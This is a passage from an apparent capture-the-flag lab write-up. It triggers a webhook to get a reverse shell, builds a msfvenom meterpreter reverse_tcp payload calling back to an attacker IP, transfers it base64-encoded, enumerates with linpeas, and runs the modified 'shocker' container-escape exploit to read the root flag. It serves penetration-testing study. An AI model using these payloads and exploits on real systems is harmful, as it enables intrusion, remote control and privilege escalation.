  

If we save the webhook and then go back into it there now should be the URL to trigger the webhook.

  

```bash
rlwrap nc -lnvp 9005
```

```bash
proxychains curl -X POST http://localhost:3000/hooks/GWPnaPkquZDL7D9yG/yWY3M2f2zhokEuuaRsbuqbDxieHD8AF8KRTvz4Kq3cx8MDWk
```

We get a callback on our listener!

```bash
script -qc /bin/bash /dev/null
export TERM=xterm
```

  

Let's enumerate the machine using `linpeas`.

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
```

In this case the machine doesn't have `wget`, `curl` or `ftp` that we can use to download `linpeas`. I have no idea what else to use other than to create a `meterpreter` shell.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f elf > reverse.elf
```

Then convert the shell to `base64`, then convert it back to a binary on the target.

```bash
# On our machine
base64 reverse.elf

# On the target
echo "f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAA..." | base64 -d > reverse.elf
chmod +x reverse.elf
```

Start `metasploit` framework and choose the `exploit/multi/handler` payload, set your `LHOST` and then execute the shell on the target.

```bash
sudo msfconsole
use exploit/multi/handler
set lhost 10.10.16.10
set payload linux/x64/meterpreter/reverse_tcp
exploit
```

  

Then upload `linpeas`.

```bash
# Metasploit
upload linpeas.sh
shell

# Upgrade shell
script -qc /bin/bash /dev/null
export TERM=xterm

# Run linpeas
chmod +x linpeas.sh
./linpeas.sh
```

There's two things that stand out to me from the `linpeas` output.

  

## Root

The target's capabilities and the fact that `/etc/passwd` is writable. This hints me more towards an `overlayfs` exploit. We can use [shocker](https://github.com/gabrtv/shocker).

```bash
wget https://raw.githubusercontent.com/gabrtv/shocker/master/shocker.c
```

We'll have to edit the code from line `164` first to make sure it gets a file system reference from the host like `/etc/hosts` and to get the flag than just the host's hashes.

```c
if ((fd1 = open("/etc/hosts", O_RDONLY)) < 0)
		die("[-] open");

	if (find_handle(fd1, "/root/root.txt", &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");
```

Compile the exploit on our machine.

```bash
gcc shocker.c -o shocker
```

Background the current shell by using the shortcut `Ctrl + Z`.

Then use `channel -l` to list the shell channels open and attach an a channel id using `channel -i <id>`.

When we can execute the exploit.

```bash
chmod +x shocker
./shocker
```

  